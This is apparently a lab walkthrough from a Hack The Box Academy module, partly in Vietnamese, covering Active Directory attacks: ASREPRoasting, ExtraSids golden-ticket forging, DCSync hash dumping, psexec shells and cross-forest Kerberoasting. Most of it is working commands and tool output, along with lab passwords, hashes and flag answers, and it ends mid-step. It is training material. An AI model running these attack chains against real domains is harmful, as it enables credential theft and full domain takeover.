Target(s): 10.129.124.90 (ACADEMY-EA-MS01) ,10.129.138.214 (ACADEMY-EA-ATTACK01)   

Life Left: 171 Terminate 

 RDP to 10.129.124.90 (ACADEMY-EA-MS01) ,10.129.138.214 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".

```powershell
PS C:\Tools> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                           useraccountcontrol
--------------                                                           ------------------
guest                  ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                  PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ygroce               PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
ehamilton                              PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                         ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                  PASSWD_NOTREQD, NORMAL_ACCOUNT
```

+ 0  Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.

```powershell
PS C:\Tools> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl


samaccountname     : ygroce
userprincipalname  : ygroce@inlanefreight.local
useraccountcontrol : PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```


```powershell
PS C:\Tools> .\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: AS-REP roasting

[*] Target User            : ygroce
[*] Target Domain          : INLANEFREIGHT.LOCAL

[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=ygroce))'
[*] SamAccountName         : ygroce
[*] DistinguishedName      : CN=Yolanda Groce,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] Using domain controller: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL (172.16.5.5)
[*] Building AS-REQ (w/o preauth) for: 'INLANEFREIGHT.LOCAL\ygroce'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$23$ygroce@INLANEFREIGHT.LOCAL:33C607E353D6DD80BCC177AB59533E9C$1647281031C404FC4ED5C8F3A869FFB87E679265D6E8D9A2CF8BA6E7C473B6A2498735B94A9DC278E90DA9281D54AE2B4DB16AAEFD14BBE26795819D2B7B14655FFEC44B627EA0A5B42A13E561DCA473E0760752B572996C2B0969A5CFC7D9B4B487BA4158A499FA59A9D40A7EC56AFE9CB14E7E9D9F1C0F01BB2C238186030F1DEFACA6D84CD8507B944D1CF0B8245DF5C2BC184DB79E7CA1A619F3F4F28766F946E17715E4F082EEDF25E107DB442CB3F9FBCFCB90132E5D1AF4869ED3C112B6FBD740C9C763B3E04155BAB470CD8E8E9AC2C5EEC63187B82191D5A39403623F8F7DEF23F4D0471150775B04228CDE260663882EBB60B0E29F
```


```zsh
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$ygroce@INLANEFREIGHT.LOCAL:33c607e353d6dd80bcc177ab59533e9c$1647281031c404fc4ed5c8f3a869ffb87e679265d6e8d9a2cf8ba6e7c473b6a2498735b94a9dc278e90da9281d54ae2b4db16aaefd14bbe26795819d2b7b14655ffec44b627ea0a5b42a13e561dca473e0760752b572996c2b0969a5cfc7d9b4b487ba4158a499fa59a9d40a7ec56afe9cb14e7e9d9f1c0f01bb2c238186030f1defaca6d84cd8507b944d1cf0b8245df5c2bc184db79e7ca1a619f3f4f28766f946e17715e4f082eedf25e107db442cb3f9fbcfcb90132e5d1af4869ed3c112b6fbd740c9c763b3e04155bab470cd8e8e9ac2c5eec63187b82191d5a39403623f8f7def23f4d0471150775b04228cde260663882ebb60b0e29f:Pass@word
```


# Domain Trusts Primer

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.96.32 (ACADEMY-EA-MS01)   


 RDP to 10.129.96.32 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  What is the child domain of INLANEFREIGHT.LOCAL? (format: FQDN, i.e., DEV.ACME.LOCAL)

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainTrustMapping


SourceName      : INLANEFREIGHT.LOCAL
TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 3/29/2022 5:14:31 PM

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : FREIGHTLOGISTICS.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 8:07:09 PM
WhenChanged     : 3/29/2022 4:48:04 PM
```

+ 0  What domain does the INLANEFREIGHT.LOCAL domain have a forest transitive trust with?

FREIGHTLOGISTICS.LOCAL

+ 0  What direction is this trust?
Bidirectional


# Attacking Domain Trusts - Child -> Parent Trusts - from Windows

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!  

 RDP to with user "htb-student_adm" and password "HTB_@cademy_stdnt_admin!"

+ 0  What is the SID of the child domain?

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainSID
S-1-5-21-2806153819-209893948-922872689
PS C:\Tools>
```

+ 0  What is the SID of the Enterprise Admins group in the root domain?

```powershell
PS C:\Tools> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select objectsid

objectsid
---------
S-1-5-21-3842939050-3880317879-2865463114-519
```

+ 0  Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain.

Tạo golden ticket với Rubeus.exe

```powershell
PS C:\Tools> .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 6/15/2025 10:26:26 PM
[*] StartTime      : 6/15/2025 10:26:26 PM
[*] EndTime        : 6/16/2025 8:26:26 AM
[*] RenewTill      : 6/22/2025 10:26:26 PM

[*] base64(ticket.kirbi):
    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
```

Xác nhận vé Kerberos:

```powershell
PS C:\Tools> klist

Current LogonId is 0:0x536ef

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/15/2025 22:26:26 (local)
        End Time:   6/16/2025 8:26:26 (local)
        Renew Time: 6/22/2025 22:26:26 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```


Tiến hành dsync lấy hash của lab_adm

```powershell
PS C:\Tools> dir \\academy-ea-dc01.inlanefreight.local\c$


    Directory: \\academy-ea-dc01.inlanefreight.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/31/2022  12:34 PM                Department Shares
d-----         4/7/2022   2:31 PM                ExtraSids
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---         4/9/2022   4:59 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----        3/31/2022  11:09 AM                User Shares
d-r---        10/6/2021  10:31 AM                Users
d-----        4/18/2022  11:37 AM                Windows
d-----        3/31/2022  11:12 AM                ZZZ_archive


PS C:\Tools> type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
f@ll1ng_l1k3_d0m1no3$
```

# Attacking Domain Trusts - Child -> Parent Trusts - from Linux

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.186.192 (ACADEMY-EA-ATTACK01) ,10.129.158.98 (ACADEMY-EA-DC02)   


 SSH to 10.129.186.192 (ACADEMY-EA-ATTACK01) ,10.129.158.98 (ACADEMY-EA-DC02) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.

Đầu tiên dump hash của krbtgt:

```zsh
┌─[htb-student@ea-attack01]─[~]
└──╼ $impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up... 
```

Lấy `sid` của domain con:

```zsh
┌─[htb-student@ea-attack01]─[~]
└──╼ $impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
Password:
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
```

Lấy `sid` của nhóm `Enterprise Admins`

```zsh
┌─[htb-student@ea-attack01]─[~]
└──╼ $impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.5| grep -B12 "Enterprise Admins"
Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

Ta ghép lại được sid đầy đủ: S-1-5-21-3842939050-3880317879-2865463114-519

Tiếp theo tiến hành lấy golden ticket:

```zsh
┌─[htb-student@ea-attack01]─[~]
└──╼ $impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in hacker.ccache
```

Thiết lập biến môi trường để sử dụng Golden Ticket:

```zsh
export KRB5CCNAME=hacker.ccache
```

Thử lấy shell của inlanefreight.local/dc01

```zsh
┌─[htb-student@ea-attack01]─[~]
└──╼ $impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file MRekNDgD.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service QvNo on 172.16.5.5.....
[*] Starting service QvNo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Tiến hành dump hash của `bross`

```zsh
[htb-student@ea-attack01]─[~]
└──╼ $impacket-secretsdump -just-dc-ntlm LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5 -just-dc-user INLANEFREIGHT/bross        
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\bross:1179:aad3b435b51404eeaad3b435b51404ee:49a074a39dd0651f647e765c2cc794c7:::
[*] Cleaning up... 
```

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.13.242 (ACADEMY-EA-MS01)   


 RDP to 10.129.13.242 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.

List tài khoản dịch vụ có Service Principal Names (SPNs) trong AD:

```powershell
PS C:\Users\htb-student> cd C:\Tools\
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
sapsso
```

Tiến hành Kerberoasting:

```powershell

PS C:\Tools> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$25A1BE07FFD84C82392293854A1ABCC5$C53A8D16BEEA246D0537918ED77E18A78402E54ECF7CCD87559333ED0636ADD47414309554B88131E95B15A18F5958EF751D8D554AE84AAB2E5A2FE6C7617DC75361577390AB7D125CF19DDE2041DE234C55938C6E29E5046392EB774583B6FFB8FE61CE832448B0137CA4B51B5A2BF309400A91340557C4D15F4934E31AD1175124670FEE49963916257DF768AE18274C157BE00E90C9EABF5BFEBF307895CAA025596A3F8B2C7C8E098B99C9707C3F7135296C1CCBC6225D5F80843885D6AD57300C44A63EDBDFC1835620311B36C77093D275E1DFCF2AB6E76E66AD053D0D79C289CE8A52FEA0A7BAB1A67E825641BDD4682BDDDBCE1711430274FCF101CFA880BB4988F469890CC0A6A4FB0800082BEF02C39403838A296AC1808386E5ED20DFD2A2DAF6E146AC393D351DE5637D3621B2972131F6CEE810C50E83E50A87091BCEE1D4AA13937D26939225FB54CEAF12DD8C82B2BC839B67229CB17777B5ABE446350C04297BE7C7C7911E9F13B716601C0AD867A5BD54E075A3EE6D41FDE4EF2F7268598683FE05EAD45162407CE02C51A7336FE59ABA6C1CF3331CCF8A94E5F4D10DE633CF678A5F06E66FB5FC2292F153DBF33091B7C7BE0BC9B8408A7A042D57F60C7497006A785448525A428FDCA45B55DFAC4C6285147EE66D62DEC5931EFE01633C3530EEF4E7B0BCFDD9ECEAFF6E9C4FF07EE375486270647DC8D381590E3CF07686C9F66250FC5E6E45B759F108D41E4FE877A911431D11A20410C5E807A77EF08D1A3967B505B7D2700784E4F60EC4B3C98BEEB8DE64B36D99C0113F21BD7B4CA346F012E3E55472F2B28205A9F0C8E4C6FD05BE38C0FB3785E4BD833F80C94B39000F28CBC4BC58FDF53F0CB52E32070400281E3053B60B6C491384C9D165D8D47B935354246A885C1865E7EA42FF87BFB19A55C9D6E84C5C1047ABB9F16D1825CBB34A27D85A6C4F439471DDD6C51E3A72D95AD6F5A919069EB1B87A25282D0A3B5C0EFB562078DE846F228D4C504C9B487A500E98EE7D3F926BB0ACCCEEDB2F4BED92BB12C3B7099CF8B96CA9EB499C0F043D6971C2EA3DA5BDD253216A377B590EC5BDB66CF61C21A15F7B2C62F7C57568EE5480EF8E1245552BE7AF19CD73D07A27CD5938BA8054FFA3E6D4CE79065268786CEC43E4F24C5F0569ABD51B02694E048F97D04B5FB3BCF1C3E847096936C6FBAAA18DF29FF4DC7A7F6EB6FD428829AA2D793744008BD580FBEC7F0F92EACC2311037EAAADD36FAC019D60CDECD32330D20B77E09E52DE167C8F6AAD34D55FD9E4F8DCA398871CCE6820FC2D38499B6E2157B1DC6409D81F31D8BC2BC8E99F148243A14F35FE7839955673719B6233B03E1011B14096B7BD03BEB07269D95738488B285D9106541BAFA2639005DFD8F1742D4B08CD8539D001EA0197C899E35FC9EC19DB45DA930AADA7C0C26D7CF27CE4F96B3704299D6A525785FEB54DBF44067CEB1EA6E25CB834FF95F8806A98F136FF441C297C5FE14BB4D8CE1A854A58A21B1A945371DEACAD3F8A76F31ED1ABE6071A63955753B687CA670F4C51C42A0180E0926C2ABB011F32D8A06FE40E229C9356D7269C5F7B317AEDB48CEBFDCF5E68FC964B111F36484522579CA550CDD28C467FF392369C4AD37341B6C3

PS C:\Tools>
```

Bẻ khóa mật khẩu với hashcat:

```zsh
hashcat -m 13100 mssql_hash /usr/share/wordlists/rockyou.txt
```

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.180.98 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.180.98 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.

Kiểm tra host và resolv.conf:

```zsh
┌─[htb-student@ea-attack01]─[~/BloodHound.py]
└──╼ $cat /etc/hosts
# Host addresses
127.0.0.1  localhost
127.0.1.1  ea-attack01
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouter
172.16.5.5 inlanefreight.local
172.16.5.5 ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
172.16.5.238 ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
172.16.5.238 FREIGHTLOGISTICS.LOCAL
172.16.5.240 LOGISTICS.INLANEFREIGHT.LOCAL
172.16.5.240 ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
172.16.5.120 ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
┌─[htb-student@ea-attack01]─[~/BloodHound.py]
└──╼ $cat /etc/resolv.conf 
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

nameserver 1.1.1.1
nameserver 8.8.8.8

```


Thêm vào resolv.conf:


Liệt kê SPNs Account:

```zsh
┌─[✗]─[htb-student@ea-attack01]─[~/BloodHound.py]
└──╼ $impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/htb-student
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               
HTTP/sapsso.FREIGHTLOGISTICS.LOCAL   sapsso    CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-04-07 17:34:17.571500  <never> 
```

+ 0  Crack the TGS and submit the cleartext password as your answer.

Request tickets hash:

```zsh
impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/htb-student -outputfile tickets.hash
```

Tiến hành crack password:

```zsh
hashcat -m 13100 tickets.hash /usr/share/wordlists/rockyou.txt
```

Pass: pabloPICASSO  và 1logistics

+ 0  Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.

Tiếp theo chúng ta thu thập thông tin cho bloodhound-ce và phân tích một chút mối quan hệ trust xuyên miền này:

```zsh
python3 bloodhound.py -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -u htb-student -p 'Academy_student_AD!' -c All
```

Làm tương tự với FREIGHTLOGISTICS.LOCAL

```zsh
python3 bloodhound.py -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -u htb-student@inlanefreight.local -p 'Academy_student_AD!' -c All
```


Nén lại chuyển về VM phân tích với BH:

```zsh
7z a crossforest.zip 2025*.json
```

Từ bloodhound, ta sẽ truy vấn Foreign Domain Group membership và đặt source là INLANEFREIGHT.LOCAL. Từ truy vấn ta thấy rằng User Administrator của inlanefreight.local thuộc nhóm admin của freightlogistics.local, do đó người dùng Administrator của domain inlanefreight có thể truy cập vào DOMAIN CONTROLER của FREIGHTLOGISTICS (DC03).


Để xác minh điều này, trước hết ta cần dump hash của Administrator@inlanefreight.local thông qua adunn@inlanefreight.local  mật khẩu `SyncMaster757` hoặc NoPAC mà ta đã lấy ở các phần trước

```zsh
impacket-secretsdump -just-dc-user INLANEFREIGHT/Administrator INLANEFREIGHT/adunn@172.16.5.5 
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up... 
```

Thử lấy shell của DC03 và thành công!

```zsh
